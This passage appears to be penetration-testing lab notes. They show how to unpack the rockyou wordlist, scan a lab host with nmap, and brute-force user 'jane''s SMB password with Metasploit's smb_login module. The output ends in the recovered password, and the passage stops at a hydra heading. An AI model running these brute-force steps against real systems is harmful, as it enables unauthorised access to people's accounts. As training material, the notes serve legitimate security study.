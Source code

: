 `Word lists` are lists of already known and used passwords, some of them leaked from breached websites or other services. Those passwords can be used as part of the attack via brute force tools.

In Kali Linux [wordlists](https://www.kali.org/tools/wordlists/) can be found inside `/usr/share/wordlists` directory.

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
# Unzip rockyou.txt list
```

```bash
ip -br -c a
	eth1@if108489   UP   192.174.58.5/24
```

* Target IP is `192.174.58.6`

```bash
nmap 192.174.58.6
	139/tcp open  netbios-ssn
	445/tcp open  microsoft-ds
```

* Use [`smb_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb\_login) metasploit module to bruteforce _jane_'s password

```bash
msfconsole
```

```bash
use auxiliary/scanner/smb/smb_login 
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser jane
set RHOSTS 192.174.58.6
exploit
```

```bash
[*] 192.174.58.6:445      - 192.174.58.6:445 - Starting SMB login bruteforce
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:admin',
[!] 192.174.58.6:445      - No active DB -- Credential data will not be saved!
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:123456',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:12345',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:123456789',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:password',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:iloveyou',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:princess',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:1234567',
[-] 192.174.58.6:445      - 192.174.58.6:445 - Failed: '.\jane:12345678',
[+] 192.174.58.6:445      - 192.174.58.6:445 - Success: '.\jane:abc123'
[*] 192.174.58.6:445      - Scanned 1 of 1 hosts (100% complete)
```

> 📌 Jane's password is `abc123`

#### [hydra](https://www.kali.org/tools/hydra/)
